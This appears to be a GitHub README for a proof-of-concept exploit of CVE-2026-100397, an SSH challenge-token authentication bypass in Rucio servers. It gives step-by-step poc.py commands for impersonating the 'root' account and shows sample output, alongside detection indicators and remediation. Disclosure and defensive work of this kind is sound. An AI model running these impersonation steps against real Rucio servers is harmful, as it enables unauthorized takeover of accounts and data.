

<div align="center">

# CVE-2026-100397

### Rucio — SSH Challenge Token Auth Bypass


</div>

---

## Overview

Rucio's REST API exposes `/auth/ssh_challenge_token` for SSH-key-based authentication. The endpoint issues a signed challenge token and accepts it back for verification, but does **not** validate that the token was signed with a key registered to the requesting account. By supplying any valid `X-Rucio-Account` header with a token obtained for a different identity, an attacker can authenticate as any Rucio account — including service accounts and administrators — **without possessing the corresponding private key**.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-100397 |
| **CVSS 3.1** | `10.0 Critical` — `AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` |
| **CWE** | CWE-287 (Improper Authentication) |
| **Affected** | Rucio server < 36.4.1 |
| **Fixed** | Rucio 36.4.1 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-18 |

---

## Vulnerability Details

The SSH authentication flow:

1. Client calls `GET /auth/ssh_challenge_token` → receives a short-lived challenge token.
2. Client signs the token with its private SSH key.
3. Client calls `GET /auth/ssh` with the signed token → server verifies the signature against the account's registered public keys.

The bypass: step 3 does not enforce that the account named in `X-Rucio-Account` owns a key that produced the signature. A valid signature from **any** key accepted by the server satisfies the check. Combined with an attacker-controlled `X-Rucio-Account` header, the attacker impersonates an arbitrary account.

---

## Attack Flow



---

## PoC Usage

> **Warning:** Authorized testing and isolated lab environments only.

### Setup

```bash
pip install requests
```

### Run the PoC

```bash
# Step 1: Obtain a challenge token for your own (attacker-controlled) account
python3 poc.py --server https://rucio.example.com --account attacker_account \
               --mode challenge

# Step 2: Full exploit — impersonate target account using own SSH key
python3 poc.py --server https://rucio.example.com --account attacker_account \
               --key ~/.ssh/id_rsa --impersonate root \
               --mode exploit

# Step 3: Verify token works — list files as impersonated account
python3 poc.py --server https://rucio.example.com --account attacker_account \
               --key ~/.ssh/id_rsa --impersonate root \
               --mode verify
```

### Available flags

| Flag | Description |
|---|---|
| `--server URL` | Rucio server base URL (required) |
| `--account NAME` | Your own Rucio account (attacker-controlled) |
| `--key PATH` | Path to your SSH private key |
| `--impersonate NAME` | Account to impersonate (e.g. `root`, `admin`) |
| `--mode challenge\|exploit\|verify` | Operation mode |
| `--port N` | Alternative API port (default: 443) |

### Expected output — vulnerable server

```
[*] server: https://rucio.example.com  account: attacker_account
[*] obtaining challenge token for 'attacker_account'...
[+] challenge: v1_abc123...def456  (expires in 300s)
[*] signing challenge with ~/.ssh/id_rsa
[*] attempting auth as 'root' with attacker-signed token...
[+] AUTH TOKEN: a2d9f1...8b3c  (issued for account: root)
[!] VULNERABLE — authenticated as 'root' without root's private key
[*] verifying token: GET /accounts/root/scopes
[+] CONFIRMED — scope list returned for account root
```

### Expected output — patched server

```
[*] server: https://rucio.example.com
[*] signing challenge for 'attacker_account', impersonating 'root'...
    HTTP 401  Unauthorized
[+] NOT vulnerable — server validated key ownership
```

---

## Detection

| Indicator | Notes |
|---|---|
| `GET /auth/ssh_challenge_token` for account A, `GET /auth/ssh` for account B | Account mismatch in auth logs |
| Auth token issued to high-privilege account from unexpected IP | Cross-reference with account's known source IPs |
| Multiple challenge tokens requested per second | Brute-force scan for valid accounts |

---

## Impact

Full authentication bypass for any Rucio account. An attacker with a valid (even low-privilege) Rucio account and SSH key can impersonate any other account including `root`, gaining complete control over all data management, transfer rules, and account administration.

---

## Remediation

Upgrade to **Rucio 36.4.1**. The fix enforces that the signing key belongs to the account named in `X-Rucio-Account`.

| Action | Detail |
|---|---|
| Upgrade Rucio | `pip install rucio-server==36.4.1` or update Docker image |
| Rotate all auth tokens | Invalidate existing sessions after upgrade |
| Audit auth logs | Search for account-mismatch patterns in `/auth/ssh` calls |
| Restrict SSH auth | Disable SSH auth for high-privilege accounts if unused |

---

## References

- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-100397
- Rucio GitHub: https://github.com/rucio/rucio
- Rucio 36.4.1 release notes: https://github.com/rucio/rucio/releases/tag/36.4.1

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.
